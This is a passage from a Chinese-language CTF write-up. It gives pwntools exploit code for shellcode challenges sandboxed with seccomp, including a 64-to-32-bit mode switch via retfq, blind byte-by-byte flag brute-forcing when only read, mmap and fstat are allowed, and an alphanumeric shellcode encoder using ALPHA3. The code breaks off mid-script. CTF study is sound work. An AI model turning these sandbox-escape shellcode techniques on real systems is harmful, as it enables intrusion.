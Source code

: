 ```bash
shellcode += shellcode_read
shellcode += append

# mode_64 -> mode_32
shellcode += shellcode_retfq
shellcode += append

shellcode = asm(shellcode,arch = 'amd64',os = 'linux')
print hex(len(shellcode))

#gdb.attach(p,"b *0x40027f\nb*0x4002eb\nc\nc\nsi\n")
p.sendline(shellcode)
pause()

p.sendline(shellcode_x86 + 0x29*'\x90' + shellcode_flag)
p.interactive()
```

### 2021-强网杯 - 初赛-shellcode

#### 只有 R 无 OW->上述两种方式的总结

这里就不多赘述了，只讲一下思路与 exp

seccomp-tools

[![](assets/1701612140-d26a21f6ea6f92f0497610a2be2df8d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203742-870b8ae0-3b68-1.png)

发现只有 read,mmap，但是又 fstat，所以可以解决没有 open 的情况，没有 write 可以利用 loop 循环，用 cmp 卡住程序，从而进行单字节爆破得到 flag，所以这是上面两个题目的总结

exp:

```bash
#!/usr/bin/env python
import os
import time
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

def toPrintable(raw):
    with open("/tmp/raw","wb") as f:
        f.write(asm(raw,arch='amd64'))
    result = os.popen("python ~/pwntools/alpha3/ALPHA3.py x64 ascii mixedcase rbx --input=/tmp/raw").read()
    print("[*] Shellcode %s"%result)
    return result

```